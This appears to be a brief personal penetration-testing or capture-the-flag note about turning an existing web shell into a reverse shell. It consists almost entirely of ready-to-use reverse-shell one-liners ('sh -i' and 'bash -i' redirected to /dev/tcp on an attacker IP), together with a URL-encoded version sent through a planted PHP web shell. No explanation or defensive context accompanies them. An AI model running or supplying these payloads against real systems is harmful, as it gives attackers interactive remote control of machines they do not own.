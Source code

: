 
https://www.revshells.com/

if we have a web shell on the machine but want a reverse shell
http://10.10.51.95:12340/rms/images/reverse-shell.php?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.18.21.236%2F443%200%3E%261

sh -i >& /dev/tcp/10.18.21.236/443 0>&1

`bash -c "bash -i >& /dev/tcp/10.18.21.236/443 0>&1"`
url encoded: `bash+-c+"bash+-i+>%26+/dev/tcp/10.18.21.236/443+0>%261"&sub=Execute`

